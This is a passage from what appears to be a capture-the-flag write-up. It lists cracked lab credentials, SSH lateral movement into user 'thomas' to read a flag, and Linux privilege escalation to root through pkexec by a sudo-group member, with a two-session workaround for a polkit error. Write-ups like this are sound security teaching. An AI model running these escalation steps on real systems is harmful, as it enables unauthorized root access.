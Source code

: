 admin : admin
thomas : p@ssw0rd

## Lateral Movement

Now that we have cracked the hashes, we can SSH into the user “thomas" for some more enumeration and the 2nd flag.

### Second flag

su thomas
cd ~
cat flag_2.txt

## Privilege Escalation

Running linenum again, we can see some SUID binarys.
According to hacktricks, we can elevate privileges to root with the “pkexec” binary.

**/usr/bin/pkexec**

Resource:  https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#sudo-admin-groups

We are also a member of the group “sudo” which is a criteria for this exploit to work.



### Exploiting pkexec to become root

To become root we execute:

```bash
pkexec "/bin/sh" #You will be prompted for your user password
```

If you try to execute pkexec and you get this error:

```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```

It's not because you don't have permissions but because you aren't connected without a GUI. And there is a work around for this issue here: https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903. You need 2 different ssh sessions:


**SSH session 1:**

```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
\#Step 5, if correctly authenticate, you will have a root session
```
